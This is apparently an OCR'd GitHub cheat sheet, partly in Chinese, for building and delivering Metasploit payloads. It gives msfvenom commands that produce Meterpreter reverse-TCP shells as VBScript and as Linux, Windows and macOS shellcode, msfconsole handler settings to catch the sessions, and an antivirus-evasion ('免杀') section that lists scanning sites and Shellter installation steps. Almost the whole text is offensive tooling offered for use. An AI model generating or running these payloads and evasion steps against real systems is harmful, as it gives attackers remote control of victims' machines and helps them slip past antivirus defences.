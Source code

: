 #### vbscript

msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port exitfunc=thread -f vbs -a x86 --platform windows > shell.vbs
C:\Documents and Settings\Administrator>cscript shell.vbs


### shellcode

linux based shellcode:
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>

windows based shellcode:
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>

mac based shellcode:
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip lport=your-port -f <language>


## 连接

msfconsole
use exploit/multi/handler
set payload payload-name
set lhost 192.168.1.1
set lport 11111
set EnableStageEncoding false
set ExitOnSession false
exploit -j -z



# 免杀

## 病毒检测网站

https://www.virustotal.com
http://www.virscan.org/language/zh-cn/


## shellter

kali下安装:
apt-get update
apt-get install shellter

windows下安装:
https://www.shellterproject.com/download/

在命令行中使用即可


## msfencode
